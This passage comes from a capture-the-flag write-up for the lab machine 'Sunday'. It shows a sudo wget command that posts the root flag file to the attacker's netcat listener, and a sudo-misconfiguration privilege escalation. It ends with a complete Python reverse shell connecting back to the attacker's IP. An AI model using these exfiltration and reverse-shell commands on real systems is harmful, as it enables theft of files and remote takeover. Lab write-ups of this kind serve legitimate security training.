     root@kali:~/pwk/lab/public# python3 -m http.server 443
    Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
    10.10.10.76 - - [27/Sep/2018 20:57:17] code 501, message Unsupported method ('POST')
    10.10.10.76 - - [27/Sep/2018 20:57:17] "POST / HTTP/1.0" 501 -
    

但是，在这种情况下，我只需要阅读POST，而不响应它，所以一个简单的将工作：`nc`

    sammy@sunday:~$ sudo wget --post-file /root/root.txt http://10.10.14.5:443/
    --00:52:35--  http://10.10.14.5:443/
               => `index.html'
    Connecting to 10.10.14.5:443... connected.
    HTTP request sent, awaiting response...
    

    root@kali:~/pwk/lab/public# nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.5] from (UNKNOWN) [10.10.10.76] 49337
    POST / HTTP/1.0
    User-Agent: Wget/1.10.2
    Accept: */*
    Host: 10.10.14.5:443
    Connection: Keep-Alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 33
    
    fb40fab6...
    

#### Overwrite troll

Enough just getting the flag. I obviously want a root shell.

This was actually how I first solved the box. When enumerating as sunny, I found a binary named troll that sunny could run with sudo without password:

    sunny@sunday:~$ sudo -l
    User sunny may run the following commands on this host:
        (root) NOPASSWD: /root/troll
    
    sunny@sunday:~$ sudo /root/troll
    testing
    uid=0(root) gid=0(root)
    

There’s nothing we could do with this as sunny. However, I think the box author expects us to use this file to privesc (hence the overwrite script).

So let’s make troll useful. First, on kali, create a shell.py, which is basically a nicely formatted [reverse python shell from pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

    #!/usr/bin/python
    
    import socket
    import subprocess
    import os
    
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("10.10.14.5",443))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"]);
    
